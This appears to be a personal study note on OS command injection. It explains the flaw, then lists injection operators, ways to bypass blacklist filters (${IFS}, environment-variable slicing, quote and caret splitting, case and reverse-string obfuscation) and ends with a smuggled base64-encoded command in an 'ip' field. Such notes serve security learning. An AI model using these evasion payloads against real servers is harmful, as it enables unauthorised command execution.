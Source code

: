 Many web applications execute local Operating System commands to perform certain processes. For example, a web application may install a plugin of our choosing by executing an OS command that downloads that plugin, using the plugin name provided. If not properly filtered and sanitized, attackers may be able to inject another command to be executed alongside the originally intended command (i.e., as the plugin name), which allows them to directly execute commands on the back end server and gain control over it. This type of vulnerability is called [command injection](https://owasp.org/www-community/attacks/Command_Injection).

This vulnerability is widespread, as developers may not properly sanitize user input or use weak tests to do so, allowing attackers to bypass any checks or filtering put in place and execute their commands.

For example, the WordPress Plugin `Plainview Activity Monitor 20161228` has a [vulnerability](https://www.exploit-db.com/exploits/45274) that allows attackers to inject their command in the `ip` value, by simply adding `| COMMAND...` after the `ip` value.

#injections #wordpress[[wordpress enumeration]] 

##### PHP
#php
`exec`, `system`, `shell_exec`, `passthru`, or `popen`

`call_user_func_array` - can be vunerable through system PHP function

##### NodeJS
[[js]] #nodejs
`child_process.exec` or `child_process.spawn` 

#### Operators:
```
%0a - new line
&
&&
|
||
;
```
#### Inline command execution
```bash
`whoami`
```
or
```bash
$(whoami)
```


#encoding
##### Bypass spaces:
* `%09` - tab char
* `${IFS}` - variable of space and tab
* `{ls,-la}` - brace expansion
* Replace space with + or %2b

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

###### Bypass /; blacklisted:
```shell
echo ${PATH:0:1}
/

echo ${LS_COLORS:10:1}
;
```

```powershell
C:\htb> echo %HOMEPATH:~6,-11%
\

$env:HOMEPATH[0]
\

PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>

```


Shifting
```shell
man ascii     # \ is on 92, before it is [ on 91
echo $(tr '!-}' '"-~'<<<[)

\
```

##### Bypass blacklisted commands
linux & win:
```shell
21y4d@htb[/htb]$ w'h'o'am'i

21y4d

21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

only linux:
```bash
w\ho\am\i

who$@ami
```

windows only:
```powershell
C:\htb> who^ami
```

##### Case manipulation
#encoding
```shell
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

Reverse string:
```shell
$(rev<<<'imaohw')
```

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

Automated tools:
https://github.com/Bashfuscator/Bashfuscator
https://github.com/danielbohannon/Invoke-DOSfuscation

base64
```
ip=1.1.1.1%0bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```